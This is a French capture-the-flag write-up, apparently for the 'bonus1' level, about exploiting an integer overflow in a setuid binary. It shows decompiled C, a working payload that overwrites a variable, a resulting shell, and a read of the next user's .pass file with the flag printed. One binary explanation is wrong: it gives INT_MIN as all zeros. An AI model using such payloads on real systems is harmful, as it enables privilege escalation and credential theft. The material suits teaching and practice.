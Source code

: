 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2011(bonus1) gid=2011(bonus1) groups=2011(bonus1),100(users)
/home/user/bonus1
total 17
dr-xr-x---+ 1 bonus1 bonus1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus1 bonus1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus1 bonus1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
-rw-r--r--+ 1 bonus1 bonus1   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus1 bonus1  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire `bonus1` :

```bash
$ ./bonus1
Segmentation fault (core dumped)
$ ./bonus1 dab
$ ./bonus1 dab itude
```

Sans succès, je me penche dès lors sur la décompilation.

J'utilise [Dogbolt](https://dogbolt.org/?id=e9dbc80b-2f99-46a6-8bbc-0ef4b8c2bda0#BinaryNinja=114&Reko=89) afin de décompiler le binaire du `bonus1`, qui a des protections contre la décompilation, mais certains décompilateurs réussissent.

Je recoupe la sortie de `RetDec` avec l'ASM et en extrait le probable code suivant :

```c
int main(int argc, char **argv)
{
    char buffer[40];
    int result;

    result = atoi(argv[1]); // <----------------1 user input to int, can't be above nine, but could be negative int overflown by multiplication
    if (result > 9)
        return 1;
    
    // <----------------------------------------2 below, user input is used to write memory allowing for overflow since len is multiplied by 4
    memcpy(buffer, argv[2], (size_t)result << 2);
    if (result == 0x574f4c46) // <--------------3 overflow rewrites the value of result here and allows passing the check
        execl("/bin/sh", "sh", 0); // <---------4 to shell access

    return 0;
}
```

D'après le code source, il semble qu'afin d'obtenir le shell, il faille passer la condition `result == 0x574f4c46` soit `result == 1464814662`.

En revanche, `result` ne peut pas être supérieur à 9. Il est cependant possible d'overflow la ligne :

```c
    memcpy(buffer, argv[2], (size_t)result << 2);
```

Si l'on réussit à passer ce check :

```c
    if (result > 9)
        return 1;
```

Puisque l'on pourra overflow le buffer de taille 40 avec une valeur de `result` supérieure à 10.
Je tente d'abord une approche avec un overflow de l'int, mais sans succès.

En utilisant la calculette de Windows cependant, pour essayer des opérations décimale/binaire autour des valeurs max et min de l'int, je tombe sur l'étonnante observation que :

`-2147483648 * n = 0` 

Et en effet, multiplier par 4 revient à faire un `n << 2`, donc, puisque la représentation binaire de `-2147483648` (INT_MIN) est :

`00000000000000000000000000000000`, après un left-shift de 2 bit, devient : `00000000000000000000000000000000`, soit 0.

Donc, puisque la représentation binaire de `-2147483647` (INT_MIN + 1) est : `10000000000000000000000000000001`, elle devient `00000000000000000000000000000100`, soit 4, après un left-shit de 2 bits (= une multiplication par 4).

Et ainsi de suite.

Je peux donc utiliser une valeur négative à passer à `atoi()`, puisque elle passera le `result > 9`, et sera multiplié par 4 au moment du `memcpy()`, ce qui va me permettre d'overflow le buffer et de changer la valeur de `result` afin de passer le dernier `if`.

Je dois donc créer un payload avec la structure suivante : `un nombre négatif me permettant d'overflow + padding (40 bytes) + la nouvelle valeur de result`.

En augmentant la valeur de l'INT_MIN jusqu'à `-2147483637`, dont la représentation binaire est `10000000000000000000000000001011`, et le left-bit shift de 2 résultant en : `00000000000000000000000000101100`, équivaut à 44.

Ce qui est un overflow de 4 bytes, ce qui est juste assez pour insérer la nouvelle valeur de l'int dans l'overflow, en d'autres termes, l'overflow écrira sur la zone mémoire de l'int `result` et changera donc sa valeur.

Je peux donc construire mon payload :

```
-2147483637 + "\x90" * 40 + 0x574f4c46
^^^^^^^^^^^   ^^^^^^^^^^^   ^^^^^^^^^^
result        buffer[40]    overflow sur result
```

Et l'essayer : 

```bash
$ ./bonus1 -2147483637 `python -c 'print("\x90"*40 + "\x57\x4f\x4c\x46"[::-1])'`
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$
```

Et c'est un succès !

